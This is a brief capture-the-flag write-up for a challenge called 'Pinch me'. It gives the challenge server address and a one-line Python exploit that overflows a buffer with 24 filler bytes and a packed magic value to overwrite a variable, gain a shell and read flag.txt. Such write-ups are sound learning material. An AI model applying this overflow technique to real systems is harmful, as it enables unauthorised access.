

## Pinch me

### Challenge Description  
This should be easy!   
```nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480```

### Writeup
We are given a server and its binary. We have to overwrite a variable to get shell access.  
Here is the command:  
```
(python2.7 -c "import pwn; print 'A'*24 + pwn.p64(0x000000001337c0de)"; cat) | ./pinch_me
```
then use `ls` and you see there is a `flag.txt` file. use `cat` to see file content.  
